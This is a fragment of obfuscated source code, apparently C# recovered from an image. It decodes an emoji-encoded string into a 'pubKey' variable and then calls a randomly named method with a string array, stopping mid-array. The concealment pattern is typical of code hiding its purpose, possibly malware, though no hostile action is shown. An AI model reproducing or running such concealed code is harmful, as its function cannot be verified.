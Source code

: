 ```
    string pubKey = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDD28\uD83D\uDD1C\uD83D\uDC5E\uD83C\uDD7F️\uD83C\uDF75\uD83C\uDF63\uD83D\uDC5E\uD83D\uDE9B\uD83C\uDF75\uD83D\uDD1C⛵\uD83D\uDCAC⏩\uD83D\uDC0F\uD83D\uDE0D✒️9️⃣\uD83D\uDC7B\uD83D\uDE0D\uD83C\uDF87\uD83D\uDDFF\uD83C\uDF67\uD83D\uDC5E⚽\uD83D\uDC36\uD83C\uDF06\uD83C\uDD7F️\uD83C\uDF0A\uD83D\uDD1C\uD83D\uDD1C\uD83D\uDCAF\uD83D\uDC7B\uD83C\uDF75\uD83D\uDD1C\uD83D\uDD0E\uD83C\uDF83\uD83C\uDF75\uD83C\uDF7A\uD83D\uDD0E\uD83D\uDDFF\uD83D\uDC60\uD83C\uDF06\uD83D\uDD0E\uD83C\uDF8F\uD83D\uDEB9\uD83D\uDD1C\uD83D\uDC5E\uD83D\uDCAC\uD83C\uDF75\uD83D\uDC0F\uD83D\uDC23\uD83D\uDC9C\uD83C\uDF75\uD83C\uDF7A\uD83D\uDD0E\uD83D\uDDFF\uD83D\uDDFF\uD83D\uDD1C\uD83C\uDF06\uD83D\uDC8F\uD83D\uDD28\uD83D\uDD38\uD83D\uDE8F\uD83D\uDE8F\uD83D\uDEB9ℹ️\uD83D\uDC5E⚽\uD83D\uDDFF\uD83D\uDD1C\uD83D\uDD0E\uD83D\uDCBF\uD83C\uDE01\uD83C\uDFA9⏩\uD83D\uDCBF\uD83D\uDD28\uD83D\uDD38\uD83D\uDE82✒️\uD83D\uDD1C\uD83D\uDD38\uD83C\uDF06\uD83D\uDE82\uD83D\uDD28\uD83D\uDC0F⛵\uD83C\uDF83ℹ️\uD83D\uDD28⏩\uD83C\uDF0A\uD83D\uDD28\uD83C\uDF46\uD83D\uDE0D\uD83D\uDD1C⏩\uD83C\uDFAD\uD83C\uDD7F️\uD83C\uDE01\uD83C\uDF8F\uD83D\uDC0F\uD83D\uDE82\uD83C\uDF8F⏩\uD83D\uDC0F\uD83D\uDC23\uD83C\uDDEA\uD83C\uDDF8\uD83C\uDE01\uD83C\uDF7A\uD83D\uDC5E\uD83C\uDFA9\uD83D\uDEB9\uD83D\uDD1C\uD83C\uDF7A\uD83C\uDE3A\uD83D\uDC9C\uD83D\uDE82⏩\uD83D\uDC8B\uD83D\uDC23\uD83C\uDFA9\uD83D\uDD0E\uD83D\uDC0F\uD83D\uDD01\uD83C\uDF7B\uD83D\uDCAF\uD83D\uDE8F\uD83C\uDDEA\uD83C\uDDF8⚽\uD83D\uDC9A\uD83C\uDF67\uD83D\uDC36\uD83C\uDF7A\uD83D\uDD1C✒️⏩\uD83C\uDF63\uD83D\uDD0E\uD83D\uDCAF\uD83C\uDE01\uD83D\uDE82\uD83D\uDDFF\uD83C\uDD7F️⏩\uD83D\uDCAF\uD83D\uDDFF\uD83D\uDC9B\uD83D\uDDFF\uD83C\uDF06\uD83D\uDC5E\uD83C\uDF87\uD83D\uDD28\uD83D\uDCAF\uD83C\uDD7F️\uD83D\uDD28\uD83D\uDDFF\uD83D\uDD28\uD83D\uDDFF\uD83C\uDFAD⏩\uD83C\uDF06\uD83C\uDF8F\uD83C\uDF8F\uD83D\uDD1C⚽\uD83C\uDF63✒️\uD83D\uDDFF\uD83C\uDF06\uD83C\uDF06\uD83D\uDC0F9️⃣\uD83C\uDF7A\uD83D\uDCBB\uD83D\uDC88\uD83D\uDC58\uD83D\uDC7B\uD83D\uDE8F\uD83D\uDC60\uD83C\uDF8F\uD83D\uDE82\uD83C\uDF8F\uD83C\uDF67\uD83D\uDC60ℹ️⛵\uD83D\uDC9B\uD83D\uDD01\uD83D\uDC5E\uD83D\uDDFF\uD83C\uDF06\uD83D\uDDFF\uD83C\uDF63⛵\uD83D\uDC9A\uD83D\uDD1C\uD83D\uDD38\uD83D\uDC23\uD83C\uDF83\uD83D\uDC58\uD83C\uDF7B\uD83D\uDCAF\uD83D\uDE0D\uD83C\uDF8F\uD83D\uDC0F\uD83C\uDE01\uD83C\uDF46\uD83D\uDC58\uD83C\uDF7B\uD83D\uDD0E\uD83C\uDE51\uD83D\uDEB9\uD83D\uDD38\uD83D\uDEBE⚽\uD83D\uDDFF\uD83D\uDCC9⏩\uD83D\uDC88⏩\uD83D\uDD1C\uD83D\uDE0D\uD83D\uDC9A\uD83D\uDC60\uD83D\uDD1C\uD83C\uDE3A\uD83D\uDC8F\uD83D\uDD01\uD83D\uDD38\uD83C\uDF8F\uD83C\uDF67\uD83D\uDC23ℹ️\uD83D\uDC5E\uD83D\uDE0D\uD83D\uDDFF\uD83D\uDC7B\uD83C\uDF06\uD83C\uDF46\uD83C\uDDEA\uD83C\uDDF8\uD83C\uDF7A✒️\uD83D\uDC8F\uD83D\uDCAF\uD83D\uDD1C\uD83D\uDDFF\uD83D\uDD28\uD83D\uDD1C\uD83C\uDE51\uD83D\uDCBB\uD83D\uDE82\uD83D\uDC36⚽\uD83D\uDC23\uD83C\uDD7F️\uD83D\uDEB9\uD83C\uDF63\uD83C\uDF63\uD83C\uDF67\uD83D\uDC58\uD83D\uDD0E\uD83D\uDDFF\uD83D\uDD28\uD83D\uDCAF\uD83C\uDE51\uD83D\uDDFF\uD83C\uDF83⏩\uD83D\uDD28\uD83D\uDDFF\uD83D\uDD28⏩\uD83D\uDD1C\uD83C\uDD7F️\uD83D\uDD38\uD83D\uDC23\uD83C\uDFAD\uD83D\uDC23\uD83C\uDF0A\uD83D\uDCD3\uD83C\uDF63\uD83C\uDF06\uD83D\uDE82\uD83D\uDC58\uD83D\uDC7B\uD83D\uDCD3\uD83D\uDC0F\uD83D\uDCAF\uD83D\uDCC9\uD83C\uDF87\uD83D\uDEB4\uD83D\uDC9C\uD83D\uDE82\uD83D\uDC9A\uD83C\uDF7A\uD83C\uDF75\uD83D\uDCC9\uD83D\uDE8F\uD83D\uDE82\uD83D\uDCAF\uD83C\uDFA9\uD83C\uDE01\uD83C\uDF7A\uD83D\uDDFF\uD83D\uDD1C\uD83C\uDD7F️\uD83D\uDCAC\uD83D\uDC23\uD83D\uDCC9\uD83D\uDD0E\uD83D\uDC9B\uD83C\uDDEA\uD83C\uDDF8\uD83D\uDC0F\uD83D\uDD0E\uD83C\uDF75\uD83D\uDEB9\uD83D\uDD28\uD83D\uDD1C\uD83C\uDF67\uD83D\uDCAF\uD83C\uDFAD\uD83D\uDDFF\uD83D\uDCBF\uD83D\uDD1C\uD83D\uDD1C\uD83D\uDC5E\uD83D\uDC88\uD83C\uDF8F\uD83C\uDF63\uD83D\uDD0E\uD83D\uDD0E\uD83D\uDD28\uD83C\uDE51\uD83C\uDF0A\uD83D\uDD38\uD83C\uDF75ℹ️\uD83C\uDE3A\uD83D\uDE82\uD83D\uDD01\uD83D\uDD28\uD83D\uDC9B\uD83C\uDF46\uD83C\uDF75\uD83D\uDE82\uD83D\uDC9A\uD83C\uDF7A\uD83D\uDC60\uD83D\uDD0E\uD83D\uDE8Fℹ️\uD83D\uDCD3\uD83D\uDC8B\uD83D\uDE0D\uD83C\uDF87\uD83D\uDD28\uD83C\uDF46\uD83D\uDE0D\uD83D\uDE82\uD83C\uDF8F\uD83D\uDC0F\uD83D\uDE8F\uD83C\uDDEA\uD83C\uDDF8\uD83D\uDCD3\uD83C\uDF06\uD83D\uDDFF\uD83D\uDD28\uD83D\uDC23\uD83C\uDF63\uD83D\uDE82\uD83D\uDC9C\uD83D\uDCAF\uD83D\uDC7B\uD83D\uDE82\uD83C\uDE51\uD83C\uDF8F\uD83C\uDF67\uD83D\uDC5E⛵9️⃣\uD83C\uDFAD\uD83D\uDC23\uD83C\uDF7B\uD83D\uDD01ℹ️\uD83D\uDC23\uD83D\uDC7B⏩⚽\uD83D\uDC23\uD83C\uDF0A\uD83D\uDD28\uD83D\uDD1C\uD83D\uDC8F⚽\uD83C\uDE01\uD83D\uDE82\uD83C\uDF8F\uD83D\uDC9B\uD83D\uDEB9\uD83D\uDD0E\uD83D\uDDFF\uD83C\uDF8F⏩\uD83D\uDCAF\uD83C\uDF0Aℹ️9️⃣\uD83D\uDCAF\uD83D\uDC5E\uD83D\uDCBF9️⃣\uD83C\uDF67\uD83D\uDD0E\uD83D\uDD28\uD83D\uDD1C⚽\uD83D\uDCAF\uD83D\uDC88\uD83D\uDEB9\uD83D\uDC7B\uD83D\uDCAF\uD83D\uDEB9⏩\uD83C\uDF06\uD83D\uDCAF\uD83D\uDE8F\uD83D\uDDFF\uD83D\uDD38\uD83C\uDFC8\uD83C\uDE3A\uD83D\uDD28\uD83D\uDD28⏩\uD83D\uDE8F9️⃣\uD83D\uDD1C\uD83D\uDCAF✒️ℹ️ℹ️\uD83D\uDC36⚽\uD83D\uDC9C\uD83C\uDF7A\uD83D\uDD0E\uD83C\uDFA9\uD83D\uDCAF\uD83D\uDE82\uD83C\uDF8F\uD83D\uDEB4\uD83D\uDEB9\uD83D\uDC7B\uD83D\uDCAF\uD83C\uDE01\uD83D\uDCD3\uD83D\uDD0E\uD83D\uDE8F\uD83C\uDDEA\uD83C\uDDF8\uD83D\uDD28\uD83D\uDD38⏩\uD83D\uDD0E\uD83D\uDDFFℹ️\uD83C\uDF8F\uD83C\uDFAD\uD83D\uDD28\uD83C\uDE51\uD83D\uDCAF\uD83C\uDFAD\uD83D\uDCD3\uD83D\uDD1C⛵\uD83D\uDE9B\uD83C\uDF8F\uD83D\uDC0F⏩\uD83C\uDFA9\uD83D\uDCAF\uD83C\uDFAD\uD83D\uDC9B\uD83D\uDE82⏩\uD83D\uDC0F\uD83D\uDE82\uD83D\uDD0E\uD83D\uDC23\uD83C\uDF7A\uD83D\uDCD3\uD83D\uDE82\uD83D\uDD01\uD83D\uDD0E\uD83D\uDC5E\uD83C\uDFA9ℹ️ℹ️\uD83C\uDF87\uD83D\uDC88\uD83C\uDF8F\uD83D\uDCC9\uD83C\uDF87\uD83C\uDF7B\uD83D\uDD01\uD83D\uDD0E\uD83C\uDF0A\uD83D\uDD38\uD83C\uDDEA\uD83C\uDDF8\uD83D\uDC0F\uD83D\uDE0D\uD83C\uDDEA\uD83C\uDDF8\uD83D\uDC36\uD83D\uDD0E\uD83D\uDD0E\uD83C\uDD7F️\uD83D\uDDFF\uD83C\uDF06\uD83D\uDD0E\uD83D\uDDFF\uD83C\uDF75\uD83D\uDD1C\uD83D\uDC9B\uD83D\uDD0C");
    cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.eLzUcATejKPOKKMlaYnpnwtwzJclOfwjWFRoaxlxd(new string[5]
    {
```